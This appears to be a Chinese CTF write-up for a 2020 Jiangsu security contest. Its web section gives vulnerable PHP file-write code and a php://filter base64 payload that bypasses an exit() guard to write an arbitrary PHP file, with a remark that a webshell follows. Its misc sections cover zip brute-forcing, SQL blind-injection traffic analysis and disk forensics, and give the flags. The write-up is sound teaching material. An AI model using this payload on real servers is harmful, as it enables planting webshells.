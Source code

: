 # Web

## 签到

略

---

## php审计

```php
<?php
$content = '<?php exit(0);?>';
$content .= @$_POST['code'];
$filename = @$_POST['filename'];
if (isset($filename)){
	file_put_contents($filename, $content);
}else{
	echo "今天天气不错";
}
?>
```

通过 base64 绕过 `<?php exit(0);?>`

```
code=PD9waHAgcGhwaW5mbygpID8+&filename=php://filter/write=convert.base64-decode/resource=1.php
```

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/18.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/19.png)

接下来直接写shell即可

---

# Misc

## 压缩包

打开zip文件 查看注释，发现密码为6位数字

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/1.png)

使用软件爆破，密码是 732654

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/2.png)

解压出来一个 111.zip 和一个 trips.txt

用winrar修复即可打开111.zip

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/3.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/4.png)

查看 sh 内容发现 压缩包密码是时间戳

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/5.png)

查看压缩包时间

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/6.png)

构造时间戳字典

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/7.png)

爆破

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/8.png)

查看flag

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/9.png)

key:F8CA0E5735CB2E6F

---

## 流量分析

直接解压得到流量包

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/10.png)

过滤仅http

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/11.png)

过滤http流量  ，然后   文件 》导出分组解析结果 》为CSV      保存为 123.txt

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/12.png)

用notepad++  打开 123.txt，可以看到语句语句中还是夹杂着很多的urlcode

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/13.png)

Ctrl+A全选  , 然后   插件 》MIME Tools  》 url decode ，这样就把URLcode转为更直观的 ascii了

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/14.png)

这个其实就是用二分法 进行sql盲注

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/15.png)

前面代表是测试第几个 字符 后面代表 与当前测试的字符的ascii值 相比较的 值

手动分析得出flag

```
1=107   k
2=101   e
3=121   y
4=58    :
5=97    a
6=52    4
7=54    6
8=100   d
9=99    c
10=55   7
11=56   8
12=100  d
13=48   0
14=55   7
15=57   9
16=56   8
17=99   c
18=56   8
19=51   3
  =52   4
20=52   4
```

key:a46dc78d0798c844

---

## vmdk取证

直接用 R-Studio 打开vmdk文件，其中一个 txt 的内容 base64解一下就是flag

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/16.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/17.png)
